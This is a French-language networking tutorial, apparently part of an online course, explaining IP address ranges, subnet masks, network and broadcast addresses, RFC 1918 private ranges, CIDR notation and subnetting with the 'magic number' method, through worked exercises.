Dans un premier temps, nous savons qu'il va falloir transformer ces adresses en binaire pour y voir plus clair, car la coupure a lieu en plein milieu du troisième octet.
Néanmoins, cela ne nous donne pas encore la première et la dernière adresse. Par contre, nous savons que les bits en vert dans l'adresse représentent la partie réseau, et les bits en rouge la partie machine.
De plus, toutes les machines appartenant à un même réseau ont un point commun : tous les bits de leur partie réseau sont identiques !
Eh oui ! Si jamais deux machines ont des adresses dont la partie réseau est différente, elles ne sont pas dans le même réseau.
En même temps, ça paraît normal...
Donc pour notre calcul, on en déduit que toutes les machines appartenant à notre réseau vont avoir leur partie réseau égale à 11000000.10101000.0000.
Par contre, les bits de la partie machine de l'adresse vont pouvoir varier pour toutes les machines du réseau.
Dans ce réseau, les adresses des machines pourront prendre beaucoup de valeurs, selon que l'on met certains bits de la partie machine à 0 ou 1.
En faisant varier les bits de la partie machine de l'adresse, nous avons pu trouver toutes les adresses du réseau.
Nous savons donc maintenant calculer une plage d'adresses à partir d'une adresse et de son masque !
Tenez, en passant, pouvez-vous me dire combien il y a d'adresses possibles dans le réseau que nous venons d'étudier ?
Nombre d'adresses dans un réseau
Nous avons vu que dans notre adresse, la partie réseau était fixée et la partie machine pouvait varier. Il nous suffit de trouver combien de combinaisons sont possibles en faisant varier les bits de la partie machine, et nous aurons alors le nombre d'adresses.
Si jamais nous n'avions qu'un seul bit pour la partie machine, nous aurions deux possibilités sur ce bit, 0 ou 1. Si nous en avions deux, il y aurait 22 adresses possibles, soit 4 adresses (00, 01, 10, 11) et ainsi de suite.
Si nous avions 10 bits pour la partie machine, nous aurions 210 adresses possibles, soit 1024 adresses.
Or, vu que la partie machine est définie par le masque, le nombre de machines disponibles dans un réseau est directement dépendant du masque !
La relation est même encore plus explicite : nombre de machines dans un réseau = 2Nombre de 0 dans le masque.
Si nous reprenons notre exemple précédent de l'adresse 192.168.0.1 associée au masque 255.255.240.0, nous pouvons maintenant immédiatement trouver le nombre d'adresses disponibles dans ce réseau. Le masque s'écrit :
Dans lequel nous voyons douze 0 qui identifient la partie machine de l'adresse.
Nombre d'adresses = 2Nombre de 0 dans le masque = 212 = 4096 adresses !
Facile, non ?
Adresse de réseau, adresse de broadcast
Parmi la plage d'adresses définie par une adresse IP et un masque, deux adresses sont particulières, la première et la dernière.
La première adresse d'une plage est l'adresse du réseau lui-même.
Cette adresse ne pourra donc pas être utilisée pour une machine.
La dernière adresse d'une plage est une adresse spéciale, l'adresse de broadcast.
Cette adresse ne peut pas non plus être utilisée pour une machine. Elle est en fait utilisée pour identifier toutes les machines de mon réseau.
Quand nous envoyons un message à l'adresse de broadcast, ce message va être reçu par toutes les machines de notre réseau.
Nous remarquons par la même occasion que dans un réseau ayant 16 adresses disponibles, seules 14 adresses seront utilisables par les machines du réseau, car la première et la dernière seront réservées pour le réseau et le broadcast. Et cela est vrai pour tout réseau. Pour chaque réseau, il y a deux adresses non utilisables pour les machines.
Nous savons donc maintenant, à partir d'une adresse et du masque associé :
déterminer la première et la dernière adresse de la plage ;
connaître le nombre d'adresses de cette plage.
Retour sur nos questions
En début de chapitre nous avions beaucoup d'interrogations, regardons si nous avons su y répondre.
Comment allons-nous pouvoir être identifiés par rapport à un autre réseau ?
Ça, c'est bon. C'est la partie réseau de l'adresse IP qui va dire dans quel réseau nous nous situons.
Et d'ailleurs, comment allons-nous identifier les réseaux ? Vont-ils avoir une adresse ? Ou un nom ?
Nous savons identifier un réseau par la partie réseau d'une adresse IP !
S'il faut une adresse pour le réseau et une pour ma machine, nous faudra-t-il deux adresses de couche 3 ?
Nous avons vu qu'en fait nous n'avons pas deux adresses, mais une seule.
Par contre, cette adresse est toujours associée à un masque qui va pouvoir définir la partie réseau et la partie machine de l'adresse.
Vous avez bien bossé et savez donc répondre à ces questions qui nous embêtaient.
Il serait temps de passer à un peu de pratique, histoire de bien fixer les idées !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous venons de voir beaucoup de notions, et pas si simples que cela !
Étant donné que ces notions sont fon-da-men-tales pour la suite du cours, nous allons faire quelques exercices pour bien fixer les idées et nous entraîner.
Faites ces exercices, même si vous êtes déjà des champions et que vous avez tout compris, car certains exemples sont un peu piégeux et peuvent sembler étonnants...
Adresse de réseau, de machine ou de broadcast ?
Le principe de l'exercice est simple.
Je vais vous donner un couple adresse/masque, et vous devrez me dire si l'adresse est une adresse de réseau, de machine ou de broadcast.
Premier exemple
Je vous donne donc le couple :
192.168.0.15/255.255.255.240
Comment allons-nous procéder ?
Comme auparavant, nous allons calculer la première et la dernière adresse du réseau ainsi défini. Ensuite, nous regarderons simplement si l'adresse donnée est l'une des deux ou pas.
Je fixe la partie réseau dans l'adresse : 11000000.10101000.00000000.00001111
Et je fais varier les bits de la partie machine en mettant tout à 0, puis tout à 1. 11000000.10101000.00000000.00000000 -> 192.168.0.0 11000000.10101000.00000000.00001111 -> 192.168.0.15
Nous avons donc trouvé 192.168.0.0 comme adresse de réseau et 192.168.0.15 comme adresse de broadcast. L'adresse donnée dans l'exercice, 192.168.0.15, est donc l'adresse de broadcast !
Aurait-on pu faire plus vite ?
La réponse est oui. En effet, quand nous avons fait notre calcul, vous avez pu observer que tous les bits de la partie machine de notre adresse étaient à 1 :
Nous pouvions donc déjà deviner que cette adresse allait être l'adresse de broadcast. De même que si nous avions vu tous les bits de la partie machine à 0, nous aurions su que nous étions en présence de l'adresse du réseau.
Des exemples plus complexes
Alors allons-y !
Voici les données, à vous de faire l'exercice et de voir par la suite si vous avez la bonne réponse !
Et voici les solutions (à ne pas regarder avant d'avoir fait l'exercice !)
192.168.0.15/255.255.255.0
Réseau allant de 192.168.0.0 à 192.168.0.255 -> Adresse de machine !
192.168.1.0/255.255.255.0
Réseau allant de 192.168.1.0 à 192.168.1.255 -> Adresse de réseau !
192.168.1.0/255.255.254.0
Réseau allant de 192.168.0.0 à 192.168.1.255 -> Adresse de machine !
10.8.65.29/255.255.255.224
Réseau allant de 10.8.65.0 à 10.8.65.31 -> Adresse de machine !
10.8.65.31/255.255.255.224
Réseau allant de 10.8.65.0 à 10.8.65.31 -> Adresse de broadcast !
10.0.0.255/255.255.254.0
Réseau allant de 10.0.0.0 à 10.0.1.255 -> Adresse de machine !
Trucs et astuces !
Après ces exercices, vous avez peut-être remarqué des informations intéressantes.
Une adresse qui finit en 255 n'est pas obligatoirement une adresse de broadcast.
Une adresse qui finit en 0 n'est pas obligatoirement une adresse de réseau.
Par ailleurs, nous avons aussi vu un point commun entre toutes les adresses de broadcast : elles sont impaires !
Ceci est normal. Vu qu'elles n'ont que des 1 dans la partie machine de l'adresse, elles finissent obligatoirement par 1 et sont impaires. De même, les adresses de réseau seront toujours paires !
Cela pourra vous éviter de faire des erreurs dans vos calculs si vous trouvez des adresses de réseau impaires ou des adresses de broadcast paires.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous venons de voir les adresses et les masques et nous avons découvert que nous formons des réseaux en les associant.
Cependant, toutes les adresses n'ont pas la même signification, notamment, certaines adresses ont été réservées pour ne pas pouvoir être utilisées sur Internet. Ces adresses sont définies dans la RFC 1918.
Par exemple, si je veux créer un nouveau protocole qui va révolutionner Internet, je vais le présenter dans une RFC qui pourra être lue, puis soumise à proposition, et enfin acceptée comme standard d'Internet.
Ainsi, depuis la nuit des temps, les RFC précisent le fonctionnement détaillé d'à peu près tout ce qui se trouve sur Internet.
Par exemple, il y a une RFC qui présente le protocole IP, la RFC 791.
Il y a même une RFC qui décrit l'envoi de messages par pigeons voyageurs... si si, la RFC 1149 qui était en fait à l'époque un poisson d'avril qui a déjà été repris deux fois dont le 1er avril 2011 avec l'adaptation à IPv6 !
Un RFC ou une RFC ?
Globalement, je n'en sais rien. Vu qu'il n'y a pas de genre en anglais et que la/le RFC n'est pas encore dans le petit Larousse, chacun fait comme bon lui semble. Je la mets au féminin car RFC veut dire Request For Comment et que requête est féminin en français.
Mais revenons à notre RFC 1918.
La RFC 1918
Cette RFC précise des plages d'adresses, soit des réseaux, qui ont une utilité particulière.
En effet, ces plages d'adresses sont réservées pour une utilisation privée. Cela veut dire que si vous faites un réseau chez vous, ou dans une entreprise, il vous faudra obligatoirement utiliser ces adresses.
Je ne peux pas choisir librement les adresses que je veux utiliser chez moi ?
Non. Et il y a une raison à cela : imaginons que j'installe mon réseau chez moi et que je n'ai pas connaissance de la RFC 1918.
Je choisis donc un réseau au hasard, par exemple le réseau 92.243.25.0/255.255.255.0.
Mais malheureusement, cette plage réseau appartient à quelqu'un sur Internet. On pourrait penser que ce n'est pas grave, car de toute façon, mon réseau est privé et ne dérangera personne sur Internet. En fait, je vais avoir des problèmes...
Par exemple, j'essaye d'aller sur mon site préféré, le Site du Zéro. Et badaboum, cela ne marche pas !
En effet, l'adresse du Site du Zéro est 92.243.25.239, qui est une adresse qui appartient à la plage réseau que j'ai choisie.
Ainsi, quand ma machine essaye de joindre cette adresse, elle pense que la machine se situe sur son propre réseau, d'après son adresse, et donc elle n'arrive pas à la joindre. Je ne pourrai donc jamais aller sur le Site du Zéro. :waw:
Comment bien choisir son adresse alors ?
C'est simple, il suffit de choisir sa plage d'adresses dans les plages réservées à cet effet dans la RFC 1918.
Les plages définies sont :
10.0.0.0/255.0.0.0
172.16.0.0/255.240.0.0
192.168.0.0/255.255.0.0
Par exemple, je peux tout à fait choisir la plage 10.0.0.0/255.255.255.0 ou 192.168.0.0/255.255.255.0.
Vu que ces adresses n'appartiennent à personne sur Internet, je serai sûr de pouvoir joindre n'importe quel site sur Internet.
C'est aussi pour cela que, très souvent, les adresses qui sont données par les opérateurs sont dans ces plages.
Bon, vous commencez maintenant à être bien à l'aise avec l'utilisation des masques et des adresses IP. Nous allons pouvoir attaquer la partie ardue des masques : le découpage de plages d'adresses.
vous savez maintenant ce qu'est une adresse IP et le masque qui lui est associé ;
vous savez aussi ce qu'un réseau est défini par une adresse et un masque ;
vous commencez à savoir utiliser le masque pour faire des calculs sur l'adresse IP.
Nous allons maintenant mettre en pratique ce que nous venons d'apprendre pour découper une plage d'adresses.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Ce chapitre va vous demander beaucoup d'attention et de réflexion. Il va y avoir pas mal de calculs et de notions à maîtriser.
Ne les négligez pas, car la compréhension des notions abordées sera nécessaire pour la suite du cours !
Les découpages que nous allons aborder font partie intégrante du métier d'administrateur réseau. Il faut parfaitement maîtriser le découpage et être à l'aise pour savoir rapidement identifier un réseau de manière correcte.
Dans ce chapitre, nous allons nous démener pour arriver à découper proprement des plages d'adresses IP.
Mais ça veut dire quoi exactement découper une plage d'adresses IP ?
Imaginez que vous administrez le réseau d'une école en informatique, genre IN'TECH INFO ! ;)
Il y a dans l'école des élèves qui apprennent tous les jours comment marche un réseau, et comment exploiter ses failles.
Vous avez configuré les machines du réseau pour qu'elles appartiennent à un même grand réseau 10.0.0.0/255.255.0.0.
Seulement, sur ce réseau, il y a à la fois les élèves, les profs, et l'administration... Vous vous rendez vite compte que des petits malins ont réussi à changer leur note au dernier examen en accédant à la machine de leur prof préféré.
Que faire ?
Eh bien nous allons découper la grande plage d'adresses qui nous a été fournie en plusieurs sous-réseaux plus petits. Nous pourrons alors mettre les élèves dans un sous-réseau, et les profs dans un autre. Et même l'administration dans un autre réseau pour que les profs n'aillent pas modifier leur fiche de paye.
Ceci est très souvent utilisé en réseaux. On a une grande plage qu'on découpe en plusieurs petites plages pour séparer les différentes populations.
Une écriture pour les fainéants
En réseau, on est très fainéants... du moins je le suis ! Il y a donc des gens qui ont pensé à nous en mettant en place une écriture plus rapide pour les masques. Il s'agit de l'écriture CIDR.
Nous reviendrons plus tard sur ce qu'est exactement le CIDR, mais pour l'instant nous allons utiliser l'écriture des masques CIDR. Un masque s'écrit sur 32 bits. Sur ces 32 bits, nous en avons un certain nombre à 1 et le reste à 0.
Vu que les 1 et les 0 ne sont pas mélangés (grâce à la contiguïté des bits), il suffit de connaître le nombre de 1 dans un masque pour le connaître complètement.
On pourra donc simplement écrire le nombre de 1 dans un masque pour le connaître.
On pourra ainsi écrire le masque 255.255.255.0 de la façon suivante /24, qui indique qu'il y a 24 bits à 1 dans le masque.
Au lieu d'écrire 192.168.0.1/255.255.255.0, on pourra écrire 192.168.0.1/24.
C'est plus rapide, non ? Peut-être que ce n'est pas révolutionnaire, mais quand on doit écrire beaucoup de masques, ça va beaucoup plus vite !
Désormais, on pourra donc écrire /20 au lieu de 255.255.240.0. D'ailleurs, j'utiliserai l'une ou l'autre de ces notations dans la suite du cours.
C'est moins facile pour nos calculs, et nous devrons souvent repasser en décimal pointé pour bien comprendre ce qui se passe, mais c'est tellement plus rapide à écrire !
Un premier découpage
Prenons une entreprise possédant la plage 10.0.0.0/16. Nous allons essayer de découper cette plage.
L'entreprise compte 1000 techniciens, 200 commerciaux et 20 directeurs. Il va donc falloir définir trois petites plages au sein de notre grande plage d'origine.
Mais comment fait-on cela ?
Vérification du nombre d'adresses
Dans un premier temps, nous allons regarder si notre plage de départ contient assez d'adresses pour nos 1220 employés (1000 + 200 + 20).
Le masque contient 16 bits à 1, donc 16 bits à 0 (puisqu'il contient au total 32 bits).
Or, nous connaissons une formule qui nous permet de connaître le nombre d'adresses dans un réseau en fonction du nombre de bits à 0 dans le masque.
Rappel : Nombre d'adresses dans un réseau = 2Nombre de 0 dans le masque
Nous allons donc avoir dans ce réseau 216 adresses, soit 65 536 adresses dans notre plage ! On en a largement plus que les 1220 nécessaires.
On devrait donc pouvoir résoudre l'exercice.
Calcul des masques
Pour la suite de l'exercice, nous savons combien nous voulons d'adresses dans les petites plages à découper, et nous avons la formule précédente qui nous donne la relation entre le nombre d'adresses et le nombre de 0 dans le masque. Nous devrions donc pouvoir déduire le nombre de 0 nécessaires dans chacun des masques, et donc les masques eux-mêmes.
Par exemple pour les techniciens qui sont 1000, il me faudra un réseau avec au moins 1000 adresses.
D'après la formule : Nombre d'adresses dans un réseau = 2Nombre de 0 dans le masque, nous devrions pouvoir déduire le nombre de 0 nécessaires dans le masque.
Nous avons 1000 < 210. Donc si nous mettons 10 bits à 0 dans le masque, nous devrions pouvoir identifier 1000 machines (nous pourrons même avoir 1024 adresses !) Si on a 10 bits à 0 dans le masque, on obtient le masque suivant :
Citation
<p>11111111.11111111.11111100.00000000 soit 255.255.252.0 ou /22</p>
Pour le réseau de nos techniciens, nous pouvons choisir le masque 255.255.252.0 pour pouvoir avoir 1024 adresses dans le réseau et donc avoir assez d'adresses pour les 1000 techniciens.
Nous pouvons faire le même calcul pour les 200 commerciaux :
200 < 28 ; le masque pour les commerciaux sera donc 255.255.255.0.
Et enfin pour les 20 directeurs :
20 < 25 ; le masque pour les directeurs sera donc 255.255.255.224.
Mais maintenant, que faire avec ces masques seuls ?
Il va nous falloir trouver les plages d'adresses associées, et pour cela nous avons beaucoup de choix parmi la grande plage que l'on nous a fournie.
Choix des plages d'adresses
Nous avons donc la grande plage 10.0.0.0/16 de 65536 adresses à notre disposition, et nous souhaitons trouver une plage de 1024 adresses pour nos techniciens parmi ces 65536 adresses.
Le choix le plus simple qui s'offre à nous est de commencer à l'adresse la plus basse, même si ce n'est pas le seul.
Donc nous choisissons de commencer notre plage d'adresses pour les techniciens à l'adresse 10.0.0.0.
Nous pouvons d'ores et déjà identifier le réseau des techniciens par le couple 10.0.0.0/255.255.252.0. Mais il serait bien aussi de connaître la dernière adresse de cette plage, car la donnée du couple adresse/masque ne nous donne pas une indication très précise.
Commençons nos calculs habituels... en essayant un peu de nous améliorer.
D'habitude, on transforme complètement l'adresse et le masque en binaire. Mais y réfléchissant un peu, on se rend compte que seul un des 4 octets du masque nous intéresse, celui où se passe la coupure entre les 1 et les 0. Ici c'est le troisième, 252.
Donc au lieu de calculer en binaire toute l'adresse, nous n'allons travailler que sur le troisième octet (fainéants que nous sommes :D ).
Masque : 252 -> 11111100
Adresse: 0 -> 00000000
Ainsi, d'après le masque, toutes les adresses des machines de mon réseau commenceront par 000000 sur le troisième octet.
La dernière adresse sera donc celle où tous les bits de la partie machine sont à 1, soit 00000011 sur le troisième octet (3 en décimal), et 11111111 sur le quatrième octet qu'il ne faut pas oublier ! (255 en décimal)
La dernière adresse de la plage des techniciens est donc 10.0.3.255.
Nous avons donc choisi une plage d'adresses adéquate pour les techniciens parmi notre grande plage de départ.
Il nous faut maintenant en choisir une pour les 200 commerciaux.
Cependant, nous avons une contrainte supplémentaire sur le choix de notre plage d'adresses, c'est que les techniciens occupent déjà un certain nombre d'adresses de notre plage, de 10.0.0.0 à 10.0.3.255.
Nous pouvons par exemple choisir de démarrer la plage d'adresses des commerciaux juste après celle des techniciens, en 10.0.4.0.
Nous pouvons d'ores et déjà identifier le réseau des commerciaux par le couple 10.0.4.0/255.255.255.0. Comme pour les techniciens, il serait bien aussi de connaître la dernière adresse de cette plage. Ici, vu que la coupure se fait parfaitement entre deux octets, le calcul est facile !
La dernière adresse sera 10.0.4.255.
Nous pouvons faire le même raisonnement pour les directeurs en commençant à 10.0.5.0.
En associant le masque à cette adresse, nous trouvons comme dernière adresse 10.0.5.31.
Et voilà !
Nous avons bien découpé la grande plage d'adresses qui nous était donnée : 10.0.0.0/16 -> 10.0.0.0 à 10.0.255.255 en trois plages d'adresses plus petites :
10.0.0.0/22 -> 10.0.0.0 à 10.0.3.255 pour les techniciens ;
10.0.4.0/24 -> 10.0.4.0 à 10.0.4.255 pour les commerciaux ;
10.0.5.0/27 -> 10.0.5.0 à 10.0.5.31 pour les directeurs.
Les adresses pour chacune de ces trois populations sont bien distinctes, et parmi la plage de départ. Opération réussie ! :p
La version compliquée du découpage
Cette partie est plutôt réservée aux caïds du découpage de plages. :soleil:
Si déjà, la partie précédente vous semble complexe, passez plutôt du temps à vous sentir à l'aise avec elle avant de passer à celle-ci, qu'il n'est pas nécessaire de connaître ou de maîtriser.
Nous verrons à la fin de cette partie que tous les découpages (ou presque) pourront se résoudre avec la méthode précédente ou avec la méthode magique que nous verrons plus tard.
En quoi consiste cette méthode plus compliquée ? On n'a vraiment rien d'autre à faire que de se compliquer la vie ?
Pour comprendre certains détails, il faut parfois se donner un peu de mal.
L'exercice va être exactement le même que le précédent. :waw:
Sauf que cette fois-ci, vous allez devoir commencer par les directeurs, puis les commerciaux, et enfin les techniciens.
On recommence donc.
Pour les directeurs, on commence en 10.0.0.0. Ils sont toujours 20 donc le masque ne change pas, 255.255.255.224. La plage va se finir en 10.0.0.31 (à vous de faire les calculs !).
Maintenant, passons aux commerciaux.
Si on suit la même logique que précédemment, on commence la plage des commerciaux à l'adresse 10.0.0.32. On lui associe le masque des commerciaux 255.255.255.0. On calcule la dernière adresse de la plage 10.0.0.255
Si vous essayez de calculer la première adresse du réseau des commerciaux, vous allez vous en rendre compte. Vu que la coupure est entre deux octets, c'est facile, la première adresse du réseau est 10.0.0.0 !?!
La même que pour les directeurs... Cela veut dire qu'en respectant la même méthode que précédemment, nous avons créé deux plages, mais celles-ci se chevauchent. Et donc, cela ne marche pas.
Que s'est-il passé ?
En fait, nous avons démarré la plage d'adresses des commerciaux sur une adresse qui ne pouvait pas être une adresse de réseau.
Si nous écrivons le masque en binaire : 11111111.11111111.11111111.00000000, nous voyons que seuls les 8 derniers bits de l'adresse, soit le dernier octet, peuvent changer pour des machines appartenant à un même réseau.
Pour connaître la première adresse d'une plage, il faut mettre tous ces bits à 0, ce qui nous donne obligatoirement 0 comme valeur sur le dernier octet pour l'adresse de réseau.
Or, nous avions choisi 10.0.0.32, qui ne peut donc pas marcher. Après notre calcul, nous avons vite vu que la première adresse de la page était 10.0.0.0 qui, elle, était correcte.
Bah oui, mais comment faire alors ?
Vous êtes un caïd et vous vous sentez capable de toujours démarrer une plage sur une adresse autorisée. Dans ce cas, allez-y !
Vous n'êtes pas encore un caïd et ne souhaitez pas en devenir un. Dans ce cas, il y a une méthode très simple : faites toujours vos calculs en prenant en premier les plages les plus grandes, comme dans le premier exercice.
Ça marche tout le temps en prenant les plages les plus grandes en premier (techniciens > commerciaux > directeurs) donc vous pourrez toujours vous en sortir... ou presque !
Pour les caïds, je vous donne quand même les calculs en partant des directeurs.
La plage des directeurs est OK : 10.0.0.0/27.
Pour les commerciaux, nous avons vu qu'il fallait commencer en 0, donc on prend la première adresse possible après 10.0.0.31 qui finit en 0, soit 10.0.1.0 ! Ce qui nous donne pour les commerciaux la plage 10.0.1.0/24 qui finit en 10.0.1.255
De la même façon, nous ne pourrons pas commencer la plage des techniciens en 10.0.2.0, il faudra aller jusqu'en 10.0.4.0. La plage des techniciens est donc 10.0.4.0/22 qui finit en 10.0.7.255.
Et si on ne peut pas faire autrement, par exemple si la plage des directeurs est déjà existante, comment faire ?
Les chats cas difficiles
Il y a certains cas pour lesquels nous ne pouvons pas trop faire autrement que de nous creuser les méninges (ou faire appel à un zéro caïd !).
Par exemple, vous arrivez dans une entreprise en tant qu'administrateur systèmes et réseaux. L'entreprise utilise actuellement la plage d'adresses 192.168.47.0/24. Cependant, cette entreprise grandissant, les 256 adresses possibles de cette plage commencent à ne pas être suffisantes. L'administrateur en chef vous demande d'agrandir cette plage réseau pour doubler sa taille, et ainsi passer à 512 adresses.
Le réflexe de base est de se dire qu'on peut ajouter la plage suivant 192.168.47.0/24, c'est-à-dire 192.168.48./24... mais ça ne marche pas !
Faisons nos calculs : pour doubler la taille du réseau, rien de plus simple, il suffit d'ajouter un 0 dans le masque. Ainsi, on passe de 28=256 à 29=512 adresses. Le masque devient donc 255.255.254.0, autrement écrit /23.
Mais attention, vu que nous venons de changer le masque, et si vous vous souvenez de la règle quelques lignes au-dessus : le masque, et donc le nombre d'adresses dans un réseau, impose de ne pas démarrer une plage d'adresses n'importe où !
Nous n'allons donc pas pouvoir choisir n'importe quoi comme adresse de départ pour notre réseau.
Si nous voulons garder les adresses actuelles qui commencent par 192.168.47.X, nous pouvons appliquer le nouveau masque à une de ces adresses pour avoir la première et la dernière adresse de la plage.
Masque: 254 -> 11111110
Adresse: 47 -> 00101111
En mettant la partie machine de l'adresse à 0, nous obtenons 00101110, ce qui correspond à 46.
En mettant la partie machine de l'adresse à 1, nous obtenons 00101111, ce qui correspond à 47.
Notre nouvelle plage d'adresses va donc aller de 192.168.46.0 à 192.168.47.255.
La plage ainsi définie est donc 192.168.46.0/23
Si vous avez mal au crâne, c'est normal.
Nous allons voir dans le chapitre suivant qu'il existe une méthode très simple et facile à utiliser qui évite tous ces calculs et permet de résoudre facilement les problèmes de découpage !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
La méthode magique est une méthode qui va nous permettre de calculer très facilement des plages d'adresses réseau, et bien plus encore !
Le nombre magique
Pour utiliser la méthode magique, nous allons devoir utiliser le nombre magique...
Qu'est-ce que le nombre magique ?
Le nombre magique est simplement un calcul fait à partir de l'octet significatif du masque. Il est égal à 256 - octet significatif.
Par exemple, si l'on choisit le masque 255.224.0.0, on voit vite que l'octet significatif (celui où la séparation a lieu) est 224.
Notre nombre magique vaut donc 256 - 224 = 32.
Que faire avec le nombre magique ?
Il va nous permettre de calculer instantanément la première et la dernière adresse de notre plage. Pour cela, il va falloir écrire tous les multiples du nombre magique (jusqu'à 256 bien sûr).
Allons-y pour les multiples de 32 : 0, 32, 64, 96, 128, 160, 192, 224, 256.
Et maintenant, nous allons simplement appliquer les deux règles suivantes :
La première adresse du réseau sera le multiple du nombre magique, inférieur ou égal à l'octet correspondant dans l'adresse.
La dernière adresse du réseau sera le multiple suivant, moins 1.
Un exemple sera plus parlant. On associe l'adresse 192.168.0.1 et le masque 255.224.0.0.
Dans notre masque, l'octet significatif est le deuxième (255.224.0.0).
Nous allons donc prendre le deuxième octet de notre adresse (192.168.0.1), soit 168.
La première adresse du réseau sera donc le multiple du nombre magique, strictement inférieur à 168.
En regardant la liste des multiples, on trouve très vite 160 ! 0, 32, 64, 96, 128, 160, 192, 224, 256.
La dernière adresse du réseau sera le multiple suivant, moins 1.
Le multiple suivant est 192, auquel on enlève 1 pour trouver 191.
La première adresse de la plage est donc 192.160.0.0 et la dernière 192.191.255.255.
On a ajouté les 0 pour la première et les 255 pour la dernière, car tous les bits qui suivent sont à 0 ou à 1, selon qu'on veut la première ou la dernière.
C'est quand même beau... non ?
Amélioration de la méthode magique.
Eh bien oui, nous pouvons encore frapper plus fort !
L'idée n'est pas non plus révolutionnaire... il s'agit simplement de ne pas calculer tous les multiples du nombre magique, mais seulement ceux qui sont intéressants.
Prenons un nouvel exemple : 10.45.185.24/255.255.248.0
Le nombre magique vaut : 256 - 248 = 8 ; l'octet significatif du masque est le troisième, ce qui correspond à 185 dans l'adresse.
Nous devons donc trouver le multiple de 8 strictement inférieur à 185... Pas la peine de commencer à 0 !
8 * 10 = 80, on est en dessous de 185.
8 * 20 = 160, on est en dessous, mais on se rapproche.
Commençons donc à 160 :
160, 168, 176, 184, 192... STOP ! On est au-dessus de 185.
Le multiple strictement inférieur est 184, celui du dessus moins un vaut 191. Ce qui nous donne pour la première adresse 10.45.184.0, et pour la dernière 10.45.191.255.
Facile, non ?
Mais nous pouvons encore frapper plus fort ! En effet, trouver la première et la dernière adresse d'une plage est utile, mais découper une plage d'adresses en sous-réseaux l'est souvent encore plus. Et la méthode magique va s'avérer redoutable !
Un exemple concret de découpage
Vous avez en charge le réseau d'une petite entité d'une entreprise. L'administrateur général vous laisse à disposition le réseau : 192.168.160.0/255.255.224.0.
Vous avez dans votre entité trois catégories de personnel :
550 techniciens ;
130 commerciaux ;
10 directeurs.
Il vous faut donc découper la plage d'origine en trois sous-réseaux pour chacune de ces populations.
Étape 1: Calcul de la plage d'origine
Vous allez voir ici que la méthode magique est vraiment rapide par rapport à la méthode classique.
Allons-y !
Le nombre magique vaut: 256 - 224 = 32.
L'octet significatif de l'adresse vaut 160, qui est un multiple de 32 ! Ce sera donc la première adresse, la dernière étant 160 + 32 - 1 = 191.
La première adresse est 192.168.160.0 et la dernière est 192.168.191.255.
Maintenant, nous allons devoir calculer les plages pour chacune des populations.
Étape 2: Calcul des masques
Par quoi commencer ?
La seule information que nous avons est le nombre de personnes de chaque population. Ça tombe bien, car nous savons que la taille d'une plage dépend de son masque. Donc si on connaît le nombre d'adresses nécessaires, nous pouvons en déduire le masque.
La formule est : nb adresses = 2nb de 0 dans le masque.
Pour les techniciens, qui sont 550, le réseau devra contenir 1024 adresses (la puissance de 2 supérieure) soit 210.
Le masque contiendra donc 10 bits à 0, soit : 11111111.11111111.11111100.00000000.
Soit en décimal : 255.255.252.0.
Nous pouvons faire pareil pour les commerciaux : 130 < 28.
Le masque est donc : 255.255.255.0.
Et pour les directeurs, nous trouvons : 10 < 24.
Le masque est donc : 255.255.255.240.
Nous avons les masques pour nos trois populations, il ne nous reste plus qu'à y associer des adresses pour avoir nos plages.
Étape 3: Calcul des plages
C'est ici que la méthode magique va nous être utile, car elle permet facilement de trouver la première et la dernière adresse d'une plage.
Nous allons commencer par les techniciens. Notre plage de départ démarre en 192.168.160.0. Eh bien nous allons commencer la plage des techniciens à cette adresse, et allons trouver l'adresse de fin grâce au masque.
Calculons le nombre magique : 256 - 252 = 4.
Le prochain multiple de 4 après 160 est 164 - 1 = 163.
La dernière adresse pour les techniciens est donc 192.168.163.255.
Pour les commerciaux, nous allons donc démarrer à l'adresse juste après pour ne pas empiéter sur la plage des techniciens, soit 192.168.164.0.
Nous allons nous passer du nombre magique pour les commerciaux, car la coupure se fait parfaitement entre deux octets sur le masque. L'adresse de fin est donc facilement calculée à 192.168.164.255.
Nous démarrons après pour les directeurs, à l'adresse 192.168.165.0. Le nombre magique vaut 256 - 240 = 16
La dernière adresse est donc 192.168.165.15 !
Résultat
Nous avons donc défini les trois plages :
Tech: 192.168.160.0/255.255.252.0, soit les adresses allant de 192.168.160.0 à 192.168.163.255.
Comm: 192.168.164.0/255.255.255.0, soit les adresses allant de 192.168.164.0 à 192.168.164.255.
Dirs: 192.168.165.0/255.255.255.240, soit les adresses allant de 192.168.165.0 à 192.168.165.15.
Tout s'est bien passé, mais... Nous savons qu'il est très facile de placer les plages d'adresses en partant de la plus grande à la plus petite, alors que l'inverse est très très très complexe. Mais nous avons la méthode magique !
Quand ça se complique
Imaginons que nous ayons 120 secrétaires qui débarquent sur notre réseau... YOUHOU !!!
Calmons-nous, cela reste un exemple, dans la vraie vie vous ne verrez pas débarquer 120 secrétaires comme cela. :p
Nous voulons leur créer une nouvelle plage, mais sans toucher aux réseaux existants. Si nous prenons la même méthode que précédemment, nous allons nous planter. :o Voyons pourquoi.
Nous avions fini la plage des directeurs à l'adresse 192.168.165.15, nous allons donc démarrer celle des secrétaires à l'adresse suivante, soit 192.168.165.16.
Le masque pour les secrétaires sera : 120 < 27 ; soit 255.255.255.128.
Le nombre magique vaut 256 - 128 = 128. La plage des secrétaires va donc finir au prochain multiple de 128 moins 1, soit 127.
Nous avons donc défini la plage des secrétaires allant de 192.168.165.16 à 192.168.165.127...
Mais cela ne marche pas ! D'abord, car il n'y a pas assez d'adresses. De 16 à 127, nous n'avons que 112 adresses, pas assez pour nos 120 secrétaires. Ensuite, et c'est le plus grave, notre plage n'est pas celle que nous pensons... En effet, si nous reprenons la méthode magique à 0, cela nous donne le calcul suivant :
le nombre magique est 128 ; les multiples de 128 sont 0, 128 et 256 ; notre plage va donc aller de 0 à 127, et non de 16 à 127 !
Nous empiétons donc sur les adresses des directeurs !!
Oui, mais comment faire ?
Eh bien il suffit de prendre le multiple du nombre magique suivant !
Nous allons commencer notre plage non pas en 192.168.165.16, mais en 192.168.165.128, et donc finir en 192.168.165.255.
Et là, nous avons bien défini un réseau d'au moins 120 adresses et qui n'empiète pas sur le réseau des directeurs !
